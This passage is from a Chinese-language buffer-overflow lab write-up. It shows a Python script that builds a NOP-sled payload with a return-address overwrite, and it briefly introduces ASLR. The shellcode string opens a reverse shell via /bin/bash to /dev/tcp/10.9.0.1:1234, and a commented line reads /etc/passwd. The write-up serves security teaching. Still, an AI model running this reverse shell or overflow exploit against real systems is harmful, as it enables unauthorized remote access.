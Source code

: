 ```python
   # The code above will change the byte at this position to zero,
   # so the command string ends here.
   # You can delete/add spaces, if needed, to keep the position the same. 
   # The * in this line serves as the position marker         * 
   #"/bin/ls -l; echo Hello 64; /bin/tail -n 4 /etc/passwd     *"
   "/bin/bash -i > /dev/tcp/10.9.0.1/1234 0<&1 2>&1            "
   "AAAAAAAA"   # Placeholder for argv[0] --> "/bin/bash"
   "BBBBBBBB"   # Placeholder for argv[1] --> "-c"
   "CCCCCCCC"   # Placeholder for argv[2] --> the command string
   "DDDDDDDD"   # Placeholder for argv[3] --> NULL
).encode('latin-1')

# Fill the content with NOP's
content = bytearray(0x90 for i in range(517)) 

##################################################################
# Put the shellcode somewhere in the payload
start = 112              # Change this number 
content[start:start + len(shellcode)] = shellcode

# Decide the return address value 
# and put it somewhere in the payload
ret    = 0x00007fffffffe490 + 1184    # Change this number 
offset = 104              # Change this number 

# Use 4 for 32-bit address and 8 for 64-bit address
content[offset:offset + 8] = (ret).to_bytes(8,byteorder='little') 
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
  f.write(content)

```

其中，start的值 = 96 + 8 + 8，即填充返回地址的下一个地址。offset = 96+8，即要覆盖的返回地址的偏移

结果：

![image-20251003234635912](https://raw.githubusercontent.com/Aur0r3-zy/picture/main/img/20251008210246537.png)

# Task6

(**ASLR**)地址空间随机化是针对缓冲区溢出攻击的防御措施之一，目的是让攻击者难以猜测到所注入的恶意代码在内存中的具体位置

设置地址随机化：

```shell
sudo /sbin/sysctl -w kernel.randomize_va_space=2
```

![image-20251008193357716](https://raw.githubusercontent.com/Aur0r3-zy/picture/main/img/20251008210246538.png)
